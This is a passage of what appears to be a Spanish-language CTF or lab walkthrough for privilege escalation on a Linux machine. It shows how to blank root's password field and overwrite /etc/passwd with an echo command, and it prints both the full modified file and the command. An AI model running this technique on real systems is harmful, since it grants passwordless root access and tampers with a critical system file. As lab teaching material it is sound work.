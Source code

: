 - Ahora en la máquina haremos lo siguiente para reemplazar este texto sin la x en el /etc/passwd.

- Ponemos todo el /etc/passwd entre comillas simples , es decir:

`echo 'TODO EL /ETC/PASSWD'`

- Y lo sobrescribimos al /etc/passwd original:

`echo 'TODO EL /ETC/PASSWD' > /etc/passwd`

```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
echo 'root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash' > /etc/passwd

```
